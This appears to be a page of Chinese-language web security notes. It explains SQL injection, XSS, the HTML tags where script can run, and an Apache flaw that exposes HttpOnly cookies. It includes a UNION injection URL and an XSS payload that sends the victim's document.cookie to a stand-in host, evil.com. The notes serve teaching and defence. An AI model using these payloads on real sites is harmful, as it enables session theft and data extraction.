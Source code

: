 ### Sql注入攻击
````javascript
http://www.foo.com/user.php?id=1
get请求目地：
  select username,email,desc1 from users where id=1;

攻击：
  http://www.foo.com/user.php?id=1 union select password,1,1 from users;
````
### XSS跨站脚本攻击
````javascript
前端解析location参数
<script>
eval( location.hash.substr(1) ); // 获取#符号后面的内容
</script>

攻击：
  http://www.foo.com/info.html#new%20Image().src="http://www.evil.com/steal.php?c="+escape(document.cookie);

诱骗用户点击之后，用户所在的网站解析参数
然后加载图片，发起get请求"http://www.evil.com/steal.php?c="+escape(document.cookie)
````
### HTML内嵌脚本执行 `能执行js的位置越多，意味着XSS发生的面越广，XSS漏洞出现的可能性越大`
````javascript
js脚本除了执行在JS格式的文件里，还可以出现在HTML的很多标签中，如下：
<script>alert(1)</script>
<img src=# onerror="alert(1)">
<input type="text" value="x" onmouseover="alert(1)" />
<iframe src="javascript:alert(1)"></iframe>
<a href="javascript:alert(1)">x</a>
````
### CSRF攻击
### cookies攻击
````txt
大多数浏览器限制Cookies最大为4kb
Apache Http Server 400错误暴露HttpOnly Cookie
Apache Http Server请求头信息超过LimitRequestFieldSize长度时，服务器返回400（Bad Request），并在返回信息中将出错的请求头内容输出（包含请求头里的 HttpOnly Cookie），
攻击者可以利用这个缺陷获取HttpOnly Cookie
````
